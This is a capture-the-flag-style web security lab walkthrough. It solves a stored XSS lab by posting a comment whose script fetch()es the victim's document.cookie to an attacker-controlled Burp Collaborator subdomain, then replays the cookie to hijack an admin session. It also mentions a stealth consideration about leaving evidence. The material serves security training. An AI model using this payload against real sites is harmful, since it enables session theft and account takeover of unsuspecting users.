 

### **Exploiting**

#### Exploiting cross-site scripting to steal cookies

> This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Using Burp Suite Professional, go to the Burp menu, and launch the Burp Collaborator client.
                    </li>
                    <li>
                        Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
                    </li>
                    <li>
                        <p>
                            Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
                        </p>
                        <code class="code-scrollable">&lt;script&gt;
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
&lt;/script&gt;</code>
                        <p>
                            This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.
                        </p>
                    </li>
                    <li>
                        Go back to the Burp Collaborator client window, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
                    </li>
                    <li>
                        Take a note of the value of the victim's cookie in the POST body.
                    </li>
                    <li>
                        Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to <code>/my-account</code> to load the admin user's account page.
                    </li>
                </ol>
                <div class="component-labinstructions">
                    <h4>Alternative solution</h4>
                    <p>
                        Alternatively, you could adapt the attack to make the victim post their session cookie within a blog comment by exploiting the XSS to perform CSRF. However, this is far less subtle because it exposes the cookie publicly, and also discloses evidence that the attack was performed.
                    </p>
                </div>
            </div>
        </div>
Other way
